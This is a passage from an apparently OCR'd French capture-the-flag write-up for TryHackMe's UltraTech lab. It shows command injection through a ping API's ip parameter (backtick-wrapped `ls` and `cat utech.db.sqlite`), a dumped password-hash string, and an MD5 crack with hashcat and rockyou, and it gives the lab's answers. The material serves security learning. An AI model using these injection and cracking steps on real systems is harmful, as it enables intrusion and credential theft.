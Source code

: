 ```bash
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

Dans le script il a y une ligne qui nous indique une variable que l'on peut passer.   
```text
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ultratech.thm:8081/ping?ip=10.9.228.66
PING 10.9.228.66 (10.9.228.66) 56(84) bytes of data.
64 bytes from 10.9.228.66: icmp_seq=1 ttl=63 time=33.0 ms

--- 10.9.228.66 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 33.096/33.096/33.096/0.000 ms
```

On met un adresse ip on voit qu'il a un retour.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ultratech.thm:8081/ping?ip=\`ls\`
ping: utech.db.sqlite: Name or service not known
```

On a maintenant le nom du fichier. 

La réponse est : utech.db.sqlite 

**What is the first user's password hash?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ultratech.thm:8081/ping?ip=\`cat%20utech.db.sqlite\`
���(r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
```

On obtient le hash.  

La réponse est : f357a0c52799563c7c7b76c1e7543a32    

**What is the password associated with this hash?**

```bash

tim@kali:~/Bureau/tryhackme/write-up$ hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt --quiet
f357a0c52799563c7c7b76c1e7543a32:n100906
```

